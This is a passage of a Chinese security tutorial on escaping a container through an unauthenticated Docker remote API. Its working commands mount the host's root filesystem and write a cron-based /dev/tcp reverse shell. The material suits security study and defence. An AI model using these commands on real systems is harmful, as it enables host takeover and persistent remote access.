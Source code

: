 **Docker 远程 API 未授权访问逃逸**  
  
docker remote api 可以执行 docker 命令，docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 docker  
  
  
**搭建**  
  
将 docker 守护进程监听在 0.0.0.0  
```
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```  
  
  
**检测**  
  
    IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375  
  
如果返回 404 说明存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LSraUznf23PPFrxQe1UfsuO1YsMHHT8FibVYFsgbaPvyT5r2p7S8Ezxw/640?wx_fmt=png&from=appmsg "")  
  
  
**复现**  
  
列出容器信息  
```
curl http://192.168.242.149:2375/containers/json
```  
  
**查看容器**  
```
docker -H tcp://192.168.242.149:2375 ps -a
```  
  
新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。  
```
 docker -H tcp://192.168.242.149:2375 run -it -v /:/mnt nginx:latest /bin/bash
```  
  
在容器内执行命令，将反弹shell的脚本写入到/var/spool/cron/root  
```
echo '* * * * * /bin/bash -i >& /dev/tcp/192.168.242.149/4444 0>&1' >> /mnt/var/spool/cron/crontabs/root
```  
  
本地监听端口，获取对方宿主机shell  
  
  
#   
  
  
  
**0****6**  
  
**漏洞 4：滥用命名空间**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9Lu2pn76vkc0XG9Ujes5oJ75MJQasHGlPOaByhF0J6Tqj4X2j6CtJ4og/640?wx_fmt=gif&from=appmsg "")  
  
#   
  
![](https://mmbiz.qpic.cn/mmbiz_png/vTLDcxb9m5FIiaQvUz7kibG5jhqn78gw9LhiaSicSmv0jgzNqW5mfuKX9Zg5lQQkHECVwYKLztzYFTTQLN2HoicfGSg/640?wx_fmt=png&from=appmsg "")  
  